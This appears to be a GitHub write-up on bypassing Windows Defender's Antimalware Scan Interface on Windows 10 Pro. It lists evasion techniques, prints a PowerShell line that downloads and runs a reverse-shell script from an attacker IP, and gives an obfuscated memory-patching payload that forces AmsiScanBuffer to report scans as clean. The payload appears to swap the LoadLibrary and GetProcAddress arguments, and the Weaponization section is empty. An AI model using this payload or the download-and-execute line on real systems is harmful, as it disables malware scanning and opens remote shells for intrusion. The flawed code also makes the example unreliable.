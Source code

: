 ## Table of Contents
- [**Outline**](#section-0)
- [**Antimalware Scan Interface Explanation**](#section-1)
- [ **Proof of Concept - Bypassing 2023 Windows 10 Pro AMSI**](#section-2)
- [ **Obfuscation Methodolgy Anlysis**](#section-3)
- [ **Credits & Reference**](#section-4)


## Outline
![](/assets/AV/diagram.png)   
AMSI (Antimalware Scan Interface) is a Windows feature introduced in Windows 10 and Windows Server 2016. Its primary purpose is to provide an interface that allows antivirus and other security solutions to scan and inspect scripts and code in real-time at runtime

By default windows defender interacts with the AMSI API to scan PowerShell scripts, VBA macros, JavaScript and scripts using the Windows Script Host technology during execution. When a user executes a script or initiates PowerShell, the AMSI.dll is injected into the process memory space. Prior to execution the following two API’s are used by the antivirus to scan the buffer and strings for signs of malware. This ultimately prevents arbitrary execution of code.

The goal of this write-up is to demonstrate bypassing the most up to date AMSI protection measure implemented in Windows 10 Pro (2023/07/28) 
# AMSI Bypass Technique
The following evasive techniques aim to avoid detection by antivirus and security software.  

##### Code Fragmentation: 
Divide codes into smaller components and assemble at runtime, evading static analysis.  

##### Obfuscation: 
Utilize obfuscation techniques to obscure the true intent of the script, making it challenging for AMSI scanners to interpret the code accurately.  

#####  Memory patching: 
Modify the AMSI Dynamic Link Library (DLL) in memory to either disable or alter its functionality temporarily.  

#### Powershell Downgrade: 
Downgrade to Windows PowerShell 2.0. It lacks essential security controls like AMSI protection, making it susceptible to exploitation as a means of evasion.

## Proof of Concept

![](/assets/AV/Final.gif)   
To verify that AMSI is correctly functioning, the tester first tried to initiate a reverse TCP connection through powershell using the below command
```bash
IEX (New-Object Net.WebClient).DownloadString('http://192.168.20.128:8443/Invoke-PowerShellTcp.ps1')
```
However, as seen above, AMSI sucessfully flags the activity as  `malicious` and proceeds to block the reverse shell connection. 
## Memory Patching
In order to bypass AMSI, the tester utilzed the following payload. This patches the `AmsiScanBuffer()` function in order to return always `AMSI_RESULT_CLEAN` which indicates that no detection has been found.
```bash
$thing = @"
// thing 
// using System.Collections.ArrayList;
using System; // thingssa
using System.Runtime.InteropServices;
public class payload {
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
}
"@
Add-Type $thing
[System.Collections.ArrayList]$Patch = 0xB8, 0x57, 0x90, 0x90, 0x00, 0x90, 0x07, 0x80, 0x90, 0xC3
$Patch.Remove(0x90)
$Patch.Remove(0x90)
$Patch.Remove(0x90)
$Patch.Remove(0x90)

[byte[]]$byteArrayFun = "","","","","",""
$byteArrayFun[0] = $Patch[0]
$byteArrayFun[1] = $Patch[1]
$byteArrayFun[2] = $Patch[2]
$byteArrayFun[3] = $Patch[3]
$byteArrayFun[4] = $Patch[4]
$byteArrayFun[5] = $Patch[5]

$to = "Am" +"s" + "iSc" + "a" + "nBu" + "ffer"
$connect = "a" + "m" + "si" + ".dl" + "l"
$librarz = [payload]::LoadLibrary($to)
$dest = [payload]::GetProcAddress($librarz, $connect)
$p = 0
[payload]::VirtualProtect($dest, [uint32]5, 0x40, [ref]$p)

[System.Runtime.InteropServices.Marshal]::Copy($byteArrayFun, 0, $dest, 6)
```








## Weaponization

## Reference
-레드팀 플레이북 Read team playbook, Offensive Security